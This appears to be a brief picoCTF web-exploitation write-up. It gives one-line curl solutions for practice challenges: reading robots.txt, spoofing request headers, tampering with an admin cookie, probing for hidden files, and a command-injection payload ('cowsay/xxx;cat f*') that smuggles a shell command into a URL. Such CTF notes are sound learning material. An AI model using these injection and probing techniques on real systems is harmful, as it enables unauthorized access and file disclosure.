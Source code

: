 ## :robot: - where are the robots - `4`
```sh
$ curl http://jupiter.challenges.picoctf.org:36474/robots.txt
. . .
User-agent: *
Disallow: /_.html
. . .

$ curl http://jupiter.challenges.picoctf.org:36474/_.html
```

## :wood: - logon - `46`
- in chrome do `chrome://flags`
- set Partitioned cookies to enable
- relaunch and set admin cookie to true 

## :thread: - dont-use-client-side - `66`
```r
$ curl http://jupiter.challenges.picoctf.org:37821 | grep substring 
```

## :question: - who are you - `142`
```r
# HTTP Requests for Comments (RFC)

$ curl -H "user-agent: PicoBrowser" \
-H "referer: mercury.picoctf.net:34588" \
-H "date: 2018" 
-H "DNT: 1" \
-H "origin: sweden" \
-H "x-forwarded-for: 31.44.224.0" \
-H "accept-language: sv-swe" \
http://mercury.picoctf.net:34588
```

## 🉑 - Some Assembly Required 1 - `152`
###### hint: path in script

## 🇭🇺 - scavenger hunt - `161`
```scala
#!/bin/bash

alias ggs='grep -i part | sed "s/^.*: //" | sed "s/ .*$//" '
url='http://mercury.picoctf.net:55079'

curl -s ${url} | ggs
curl -s ${url}/mycss.css | ggs
curl -s ${url}/robots.txt | ggs
curl -s ${url}/.htaccess | ggs
curl -s ${url}/.DS_Store | ggs
```

## :baseball: - login - `200`
###### hint: base64

## :cow: - caas - `202`
```sh
$ curl "https://caas.mars.picoctf.net/cowsay/pwd;ls"
$ curl "https://caas.mars.picoctf.net/cowsay/xxx;cat f*"
```
